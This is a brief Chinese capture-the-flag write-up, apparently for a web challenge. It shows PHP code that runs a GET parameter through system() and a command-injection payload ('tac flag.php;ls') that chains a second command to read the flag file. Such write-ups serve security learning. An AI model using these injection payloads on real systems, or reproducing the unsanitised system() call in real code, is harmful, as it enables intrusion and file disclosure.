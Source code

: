 # 知识点
# [/dev/null 2>&1详解](https://www.cnblogs.com/tinywan/p/6025468.html)
# 思路
##### 372619038
源代码
```bash
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
payload
```bash
?c=tac flag.php;ls
```
![image.png](./images/20231017_2350467072.png)
